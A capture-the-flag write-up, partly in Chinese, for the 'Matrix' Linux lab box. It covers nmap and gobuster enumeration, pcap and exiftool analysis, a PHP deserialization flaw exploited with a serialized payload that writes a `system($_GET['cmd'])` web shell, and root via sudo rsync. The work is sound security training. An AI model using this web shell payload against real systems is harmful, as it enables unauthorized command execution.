

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Matrix  
❯ nmap 192.168.56.141 -sV -A -p-

22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 67:78:c9:d2:e3:ff:be:fc:9e:13:9a:af:9d:59:17:66 (ECDSA)
|_  256 1a:78:b1:e6:f1:f0:d1:b3:ab:c8:3f:95:fd:46:52:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Enter The Matrix
```


## Gobuster

```
[root@kali] /home/kali/Matrix  
❯ gobuster dir -u http://192.168.56.141/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt   -x .pcap 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.141/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              pcap
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/trinity.pcap         (Status: 200) [Size: 146389]
/server-status        (Status: 403) [Size: 279]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

## Exiftool

进行流量分析

发现一个图片，将其导出



```
[root@kali] /home/kali/Matrix  
❯ exiftool object172.image%2fwebp 
ExifTool Version Number         : 13.00
File Name                       : object172.image%2fwebp
Directory                       : .
File Size                       : 119 kB
File Modification Date/Time     : 2025:04:08 20:23:11+08:00
File Access Date/Time           : 2025:04:08 20:23:19+08:00
File Inode Change Date/Time     : 2025:04:08 20:23:11+08:00
File Permissions                : -rw-r--r--
File Type                       : Extended WEBP
File Type Extension             : webp
MIME Type                       : image/webp
WebP Flags                      : XMP, ICC Profile
Image Width                     : 800
Image Height                    : 800
Profile CMM Type                : Little CMS
Profile Version                 : 4.4.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
Profile Date Time               : 2025:01:26 01:39:22
Profile File Signature          : acsp
Primary Platform                : Apple Computer Inc.
CMM Flags                       : Not Embedded, Independent
Device Manufacturer             : 
Device Model                    : 
Device Attributes               : Reflective, Glossy, Positive, Color
Rendering Intent                : Perceptual
Connection Space Illuminant     : 0.9642 1 0.82491
Profile Creator                 : Little CMS
Profile ID                      : 0
Profile Description             : GIMP built-in sRGB
Profile Copyright               : Public Domain
Media White Point               : 0.9642 1 0.82491
Chromatic Adaptation            : 1.04788 0.02292 -0.05022 0.02959 0.99048 -0.01707 -0.00925 0.01508 0.75168
Red Matrix Column               : 0.43604 0.22249 0.01392
Blue Matrix Column              : 0.14305 0.06061 0.71393
Green Matrix Column             : 0.38512 0.7169 0.09706
Red Tone Reproduction Curve     : (Binary data 32 bytes, use -b option to extract)
Green Tone Reproduction Curve   : (Binary data 32 bytes, use -b option to extract)
Blue Tone Reproduction Curve    : (Binary data 32 bytes, use -b option to extract)
Chromaticity Channels           : 3
Chromaticity Colorant           : Unknown
Chromaticity Channel 1          : 0.64 0.33002
Chromaticity Channel 2          : 0.3 0.60001
Chromaticity Channel 3          : 0.15001 0.06
Device Mfg Desc                 : GIMP
Device Model Desc               : sRGB
VP8 Version                     : 0 (bicubic reconstruction, normal loop)
Horizontal Scale                : 0
Vertical Scale                  : 0
XMP Toolkit                     : Image::ExifTool 12.57
Description                     : Morpheus, we have found a direct connection to the 'Mind', the artificial intelligence that controls the Matrix. You can find it at the domain M47r1X.matrix.nyx.
Image Size                      : 800x800
Megapixels                      : 0.640
```

得到一个域名**M47r1X.matrix.nyx**

## Own www-data

进入后似乎是一个交流框


访问那个**txt**，得到一段**php**代码

```
<?php

    class Message
    {
        public $file = "messages.txt";
        public $message = "";
        public function __unserialize(array $data): void
        {
            $file = $data['file'] ?? $this->file;
            $this->message = $data['message'];
            file_put_contents($file, $data['message'] . "\n", FILE_APPEND);
        }
    }

    
```

对交流框进行抓包可以看到是存在反序列化的


根据逻辑修改一下

```
<?php

class Message
{
    public $file = "hack.php";
    public $message = '<?php system($_GET["cmd"]);';

}

$obj = new Message();
$payload = serialize($obj);
echo $payload;

#O:7:"Message":2:{s:4:"file";s:8:"hack.php";s:7:"message";s:27:"<?php system($_GET["cmd"]);";}
```


## Own smith

之前在流量里发现了密码字符串


可以切换用户


## Root

查看**sudo -l**

```
smith@matrix:~$ sudo -l
[sudo] contraseña para smith: 
Lo siento, pruebe otra vez.
[sudo] contraseña para smith: 
Matching Defaults entries for smith on matrix:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User smith may run the following commands on matrix:
    (ALL) PASSWD: /usr/bin/rsync
```

- [rsync | GTFOBins](https://gtfobins.github.io/gtfobins/rsync/#sudo)


## Summary

`User`：流量分析，通过图片拿到子域名，然后**PHP反序列化**写入木马。

`Root`：查找**GTFObins**，直接提权。
